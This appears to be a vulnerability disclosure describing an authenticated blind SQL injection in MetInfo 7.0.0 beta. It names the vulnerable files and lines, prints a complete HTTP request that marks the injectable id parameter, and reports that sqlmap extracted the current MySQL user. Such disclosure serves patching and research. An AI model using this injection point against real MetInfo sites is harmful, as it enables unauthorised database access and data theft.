

# The MetInfo 7.0.0 beta Background SQL Blind Injection 2 #

Description:MetInfo 7.0.0 beta allows SQL Injection via the id parameter in a admin/index.php?n=ui_set&m=admin&c=index&a=doset_text_content&table=product&field=description&text=1&id=10 request.

## 1.Version Description: ##

Use the Google Chrome open this test site.download this version（```https://u.mituo.cn/api/metinfo/download/7.0.0beta```) and build a test site.


Current version as follow.


## 2.SQL Injection(Need to login) ##

locate in /app/system/ui_set/admin/index.class.php line:492 to 502


The function doset_text_content call set_field_text,
and we follow the function locate in /app/system/include/class/view/compile.class.php line:311 to 330


In $query, directly to the id in the SQL statement.And make a SQL Injection.

    GET /admin/index.php?n=ui_set&m=admin&c=index&a=doset_text_content&table=product&field=description&text=123456&id=10* HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Cookie: Hm_lvt_520556228c0113270c0c772027905838=1570592565,1570629746; PHPSESSID=e351ac2df468e9d187ecf31163c935dc; met_auth=e01fakMDoiG475LTUMYtNy2tJPH0tI8W7e3M7e12bzx8fIcVwM%2F3viTT6eJBMWuAfe6uqe8aB5BVMs3uz6XYBVz8zA; met_key=gCjlS1m; admin_lang=cn; page_iframe_url=http%3A%2F%2F127.0.0.1%2Findex.php%3Flang%3Dcn%26pageset%3D1; Hm_lpvt_520556228c0113270c0c772027905838=1570634168; arrlanguage=metinfo
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1

For simplicity I will use the sqlmap and get a sql injection,and get current mysql user successfully.
